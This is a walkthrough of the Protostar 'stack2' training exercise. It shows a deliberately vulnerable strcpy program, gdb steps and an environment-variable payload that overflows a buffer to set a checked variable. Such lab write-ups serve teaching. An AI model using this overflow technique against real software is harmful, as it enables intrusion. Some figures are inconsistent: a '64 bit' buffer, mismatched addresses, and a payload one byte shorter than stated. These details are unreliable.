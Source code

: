 
## Protostar exercises - [stack2](https://exploit-exercises.lains.space/protostar/stack2/)

#### About
Stack2 looks at environment variables, and how they can be set.

This level is at /opt/protostar/bin/stack2

#### Source code:
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }

}
```

#### Procedure:

Similar to the previous one, the value of 'modified' variable needs to be changed to a specific value. Again, there is a `strcpy()` being used, but now its copying an environment variable GREENIE. 

We need to create a GREENIE environment variable and overwrite 'modified' variable with it.

###### Vulnerability:

`strcpy` is used to copy a string. if the destination string of a `strcpy()` is not large enough, then buffer overflow happens. We can use this to overflow the 64 bit buffer and write into the memory address where 'modified' is stored.

###### Disassembly:

We can see that 'modified' is assigned an address $esp+0x58. Lets setup breakpoints before and after `strcpy()` to see which registers are changing

Lets create GREENIE variable. `export GREENIE=AAAAAAAA`  and run the program.

```
break *0x080484df
break *0x080484e4
define hook-stop
>info registers
>x/24wx $esp
>x/2i $eip
>end
```


We can see that registers 0xbffff748 and 0xbffff74c are written with 0x41's.
Also 'modified' is stored at 0xbffff788 ($esp+0x58) and has value of 0x00000000

To overwrite it, we need to fill the addresses from 0xbffff748 to 0xbffff788. That is 40+4 words or 68 bytes.

Lets change the GREENIE value `export GREENIE=AAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEEFFFFFFFFGGGGGGGGHHHHHHHHIIII`



Now, we can see that $esp+0x58 (0xbffff748) is changed to 0x49494949. Lets change it to the desired value 0x0d0a0d0a, which is '\r\n\r\n'

Since the machine formats little endian, the required string is AAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEEFFFFFFFFGGGGGGGGHHHHHHH\n\r\n\r


Now, the varialbe is changed to the desired value and program executes without error.
